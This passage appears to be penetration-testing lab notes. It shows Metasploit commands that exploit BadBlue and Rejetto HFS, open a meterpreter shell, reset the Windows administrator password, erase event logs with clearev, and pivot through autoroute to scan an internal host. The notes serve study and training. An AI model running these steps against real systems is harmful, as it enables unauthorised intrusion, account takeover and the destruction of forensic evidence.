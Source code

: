 ```bash
kali@kali> service postgresql start && msfconsole

msf6> workspace -a clear-event
msf6> setg rhosts 10.3.23.158
msf6> use exploit/windows/http/badblue_passthru
msf6> set target 1
msf6> run

meterpreter> shell

C:> net user administrator password_12345
# CTRL+C
```

```bash
meterpreter> clearev  # clear all events
```

All events get deleted !

#### Pivoting

* Pivoting is a post exploitation technique that involves utilizing a compromised host to attack other systems on the compromised host's private internal network.
* After gaining access to one host, we can use the compromised host to exploit other hosts on the same internal network to which we could not access previously.
* Meterpreter provides us with the ability to add a network route to the internal network's subnet and consequently scan and exploit other systems on the network.

```bash
kali@kali> ping 10.3.28.166  # can reach it
kali@kali> ping 10.3.25.211  # no response
kali@kali> service postgresql start && msfconsole

msf6> workspace -a pivoting
msf6> db_nmap -sV 10.3.25.166
msf6> use exploit/windows/http/rejetto_hfs_exec
msf6> set rhosts 10.3.28.166
msf6> run

meterpreter> ipconfig
```

```bash
# Metasploit has no gateway to hit the address 10.3.25.211 yet
meterpreter> run autoroute -p
# enable a new route for metasploit
meterpreter> run autoroute -s 10.3.28.0/20
# the gateway Session1 is now active in the Metasploit database thus you can reach this subnet by using Metasplpoit scanner modules
meterpreter> run autoroute -p
# CTRL+Z

msf6> sessions -n victim-1 -i 1
# Scan the ports on the unexposed target 2
msf6> use auxiliary/scanner/portscan/tcp
msf6> set rhosts 10.3.25.211
msf6> set ports 1-100
msf6> run
```
